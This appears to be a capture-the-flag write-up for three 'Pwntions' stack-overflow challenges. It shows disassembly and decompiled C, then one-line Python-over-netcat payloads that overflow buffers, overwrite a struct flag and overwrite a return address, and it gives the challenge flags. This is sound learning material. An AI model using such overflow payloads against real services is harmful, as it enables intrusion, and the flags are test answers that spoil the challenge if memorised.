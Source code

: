 # Pwntions 1
Running `file` on the given binary shows that it is a 32-Bit ELF.

Disassembling the given binary `pwntions_public` in GDB in main we have the following:
```asm
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x080493e7 <+0>:	lea    ecx,[esp+0x4]
   0x080493eb <+4>:	and    esp,0xfffffff0
   0x080493ee <+7>:	push   DWORD PTR [ecx-0x4]
   0x080493f1 <+10>:	push   ebp
   0x080493f2 <+11>:	mov    ebp,esp
   0x080493f4 <+13>:	push   ecx
   0x080493f5 <+14>:	sub    esp,0x4
   0x080493f8 <+17>:	mov    eax,ds:0x804b4e4
   0x080493fd <+22>:	push   0x0
   0x080493ff <+24>:	push   0x2
   0x08049401 <+26>:	push   0x0
   0x08049403 <+28>:	push   eax
   0x08049404 <+29>:	call   0x80490e0 <setvbuf@plt>
   0x08049409 <+34>:	add    esp,0x10
   0x0804940c <+37>:	call   0x8049311 <print_banner>
   0x08049411 <+42>:	call   0x8049226 <answer_professor>
   0x08049416 <+47>:	mov    eax,0x0
   0x0804941b <+52>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804941e <+55>:	leave
   0x0804941f <+56>:	lea    esp,[ecx-0x4]
   0x08049422 <+59>:	ret
End of assembler dump.
```

Taking a closer look at `<answer_professor>`
This portion I decompiled in Ghidra
```C
/* WARNING: Could not reconcile some variable overlaps */

void answer_professor(void)

{
  char *pcVar1;
  char student_answer [32];
  char flag [49];
  
  student_answer._0_4_ = 0;
  student_answer._28_4_ = 0;
  pcVar1 = (char *)0x0;
  do {
    *(undefined4 *)(student_answer + 1 + (int)pcVar1) = 0;  //Places '0' in the array here
    pcVar1 = pcVar1 + 4;
  } while (pcVar1 < student_answer + (0x1d - (int)(student_answer + 1)));
  puts("\n\nProfessor maritio_o:");
  puts(
      "\"As there is little foolish wand-waving here, many of you will\nhardly believe this ismagic. I don\'t expect you will really\nunderstand the beauty of the softly simmeringcauldron with\nits shimmering fumes, the delicate power of liquids that\ncreep through thehuman veins, bewitching the minds, ensnaring\nthe senses... I can teach you how to bottlefame, brew glory,\nand even stopper death - if you aren\'t as big a bunch of\ndunderheads asI usually have to teach.\"\n"
      );
  puts("Student:");
  read(0,student_answer,0x30);
  puts(student_answer);
  return;
}
```
We can see that the flag is embedded and that we are prompted to place input into the `student_answer` array. Also take note that a 0 is moved into the array so that it currently contains one element.

The idea is to overflow the `student_answer` array, thus allowing us to print the flag array instead.

Script: `python -c 'print "A" * 31' | nc pwntion1.tghack.no 1061`

Flag: `TG19{remember that C always terminates on null bytes^_^}`

# Pwntions 2

This is very similar to the last one except that in the `answer_professor` function there is a check if a structure member is equal to one.

```C

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void answer_professor(void)

{
  question student_question;
  
  setvbuf(stdout,(char *)0x0,2,0);
  memset(&student_question,0,0x34);
  puts("\n\nProfessor maritio_o:");
  puts("> Welcome to the second class about stack overflow pwntions!");
  puts("> Pls don\'t hesitate to ask questions!\n");
  puts("Student:");
  printf("> ");
  read(0,&student_question,0x40);
  puts((char *)&student_question);
  if (student_question.is_magical_question == 1) {        //HERE
    puts("Professor maritio_o:");
    puts("> Excellent! Ten points to your house!");
    printf("> ");
    system("cat flag.txt");
  }
  else {
    puts("Professor maritio_o:");
    puts("> That\'s a good question, you should Google that!");
  }
  return;
}
```

Script: `python -c 'print "A" * 48  + "\x01\x00\x00\x00"' | nc pwntion2.tghack.no 1062`

Flag: `TG19{Wow! You_may_also_stack_overflow_into_a_struct}`

# Pwntions 3

Script: `python -c 'print "A" * 44 + "\xb6\x86\x04\x08"' | nc pwntion3.tghack.no 1063`

Flag: `TG19{Awesome! You are now better at pwning than many CTFers!! Congratulations}`
